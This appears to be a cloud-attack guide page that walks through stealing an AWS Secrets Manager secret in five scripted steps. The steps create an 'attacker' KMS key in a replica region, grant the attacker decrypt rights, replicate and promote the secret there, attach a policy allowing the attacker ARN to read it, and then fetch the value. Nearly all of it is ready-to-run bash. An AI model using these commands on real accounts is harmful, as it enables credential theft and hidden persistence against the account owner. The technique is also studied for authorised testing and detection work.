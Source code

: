 ```bash
export R1=<primary-region>   # e.g., us-east-1
export R2=<replica-region>   # e.g., us-west-2
export SECRET_ID=<secret name or ARN in R1>
export ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
export ATTACKER_ARN=<arn:aws:iam::<ACCOUNT_ID>:user/<attacker> or role>
```

1) Create attacker-controlled KMS key in replica Region

```bash
cat > /tmp/kms_policy.json <<'JSON'
{"Version":"2012-10-17","Statement":[
  {"Sid":"EnableRoot","Effect":"Allow","Principal":{"AWS":"arn:aws:iam::${ACCOUNT_ID}:root"},"Action":"kms:*","Resource":"*"}
]}
JSON
KMS_KEY_ID=$(aws kms create-key --region "$R2" --description "Attacker CMK for replica" --policy file:///tmp/kms_policy.json \
  --query KeyMetadata.KeyId --output text)
aws kms create-alias --region "$R2" --alias-name alias/attacker-sm --target-key-id "$KMS_KEY_ID"
# Allow attacker to decrypt via a grant (or use PutKeyPolicy to add the principal)
aws kms create-grant --region "$R2" --key-id "$KMS_KEY_ID" --grantee-principal "$ATTACKER_ARN" --operations Decrypt DescribeKey
```

2) Replicate the secret to R2 using the attacker KMS key

```bash
aws secretsmanager replicate-secret-to-regions --region "$R1" --secret-id "$SECRET_ID" \
  --add-replica-regions Region=$R2,KmsKeyId=alias/attacker-sm --force-overwrite-replica-secret
aws secretsmanager describe-secret --region "$R1" --secret-id "$SECRET_ID" | jq '.ReplicationStatus'
```

3) Promote the replica to standalone in R2

```bash
# Use the secret name (same across Regions)
NAME=$(aws secretsmanager describe-secret --region "$R1" --secret-id "$SECRET_ID" --query Name --output text)
aws secretsmanager stop-replication-to-replica --region "$R2" --secret-id "$NAME"
aws secretsmanager describe-secret --region "$R2" --secret-id "$NAME"
```

4) Attach permissive resource policy on the standalone secret in R2

```bash
cat > /tmp/replica_policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AttackerRead","Effect":"Allow","Principal":{"AWS":"${ATTACKER_ARN}"},"Action":["secretsmanager:GetSecretValue"],"Resource":"*"}]}
JSON
aws secretsmanager put-resource-policy --region "$R2" --secret-id "$NAME" --resource-policy file:///tmp/replica_policy.json --block-public-policy
aws secretsmanager get-resource-policy --region "$R2" --secret-id "$NAME"
```

5) Read the secret from the attacker principal in R2

```bash
# Configure attacker credentials and read
aws secretsmanager get-secret-value --region "$R2" --secret-id "$NAME" --query SecretString --output text
```
